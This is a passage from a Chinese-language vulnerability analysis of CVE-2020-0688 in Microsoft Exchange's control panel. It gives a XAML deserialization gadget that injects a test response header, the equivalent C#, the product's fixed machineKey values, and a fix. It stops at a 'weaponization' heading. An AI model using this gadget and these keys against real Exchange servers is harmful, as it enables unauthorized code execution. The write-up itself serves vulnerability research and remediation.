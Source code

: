 ```
&lt;ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml" 
    xmlns:s="clr-namespace:System;assembly=mscorlib" 
    xmlns:w="clr-namespace:System.Web;assembly=System.Web"&gt;
  &lt;ObjectDataProvider x:Key="a" ObjectInstance="`{`x:Static w:HttpContext.Current`}`" MethodName=""&gt;&lt;/ObjectDataProvider&gt;
  &lt;ObjectDataProvider x:Key="b" ObjectInstance="`{`StaticResource a`}`" MethodName="get_Response"&gt;&lt;/ObjectDataProvider&gt;
  &lt;ObjectDataProvider x:Key="c" ObjectInstance="`{`StaticResource b`}`" MethodName="get_Headers"&gt;&lt;/ObjectDataProvider&gt;
  &lt;ObjectDataProvider x:Key="d" ObjectInstance="`{`StaticResource c`}`" MethodName="Add"&gt;
    &lt;ObjectDataProvider.MethodParameters&gt;
      &lt;s:String&gt;X-ZCG-TEST&lt;/s:String&gt;
      &lt;s:String&gt;CVE-2020-0688&lt;/s:String&gt;
    &lt;/ObjectDataProvider.MethodParameters&gt;
  &lt;/ObjectDataProvider&gt;
  &lt;ObjectDataProvider x:Key="e" ObjectInstance="`{`StaticResource b`}`" MethodName="End"&gt;&lt;/ObjectDataProvider&gt;
&lt;/ResourceDictionary&gt;
```

上述xaml在加载时的流程等同于：

```
var a=HttpContext.Current;
var b=a.Response;
var c=b.Headers;
c.Add("X-ZCG-TEST","CVE-2020-0688");
b.End();
```

修改生成payload，访问，可看到增加了一个返回头`X-ZCG-TEST`，其值为`CVE-2020-0688`。和执行命令的poc不同，由于调用了`Response.End`，不会导致后续异常，返回状态码为正常的`200`。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t015f1fd04e46b96675.png)

当然，调用诸如`Response.AppendCookie`、`Response.AddHeader`等方法都是可以的，只要最终生成的QueryString不超过`2048`就不会有任何问题。

### <a class="reference-link" name="0x32%20%E4%BF%AE%E5%A4%8D%E6%8E%AA%E6%96%BD"></a>0x32 修复措施

由于ecp本身不使用任何ViewState相关的方法（事实上在多个页面中禁用了ViewState），最简单的修复方式就是删除web.config中`machineKey`一节：

```
&lt;machineKey validationKey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" decryptionKey="E9D2490BD0075B51D1BA5288514514AF" validation="SHA1" decryption="3DES" /&gt;
```

之后ecp会自动重启，随后将采用随机生成的0x400长度的key进行加密。



## 0x40 红队：武器化
